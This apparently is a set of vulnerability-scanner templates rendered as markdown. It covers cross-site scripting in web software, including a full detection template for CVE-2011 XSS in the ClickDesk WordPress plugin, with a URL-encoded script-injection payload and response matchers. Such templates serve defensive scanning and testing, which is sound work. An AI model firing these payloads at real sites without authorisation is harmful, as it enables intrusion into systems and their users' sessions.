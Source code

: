 ## Description

- The window-name is vulnerable to DOM based cross-site scripting.
- severity - high
- tags - headless,xss,domxss

---

# ClickDesk Live Support Live Chat 2.0 - Cross-Site Scripting

## Description

- A cross-site scripting vulnerability in clickdesk.php in ClickDesk Live Support - Live Chat plugin 2.0 for WordPress allows remote attackers to inject arbitrary web script or HTML via the cdwidgetid parameter.
- severity - medium
- tags - cve,cve2011,wordpress,xss,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/clickdesk-live-support-chat/clickdesk.php?cdwidgetid=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# GRAND FlAGallery 1.57 - Cross-Site Scripting

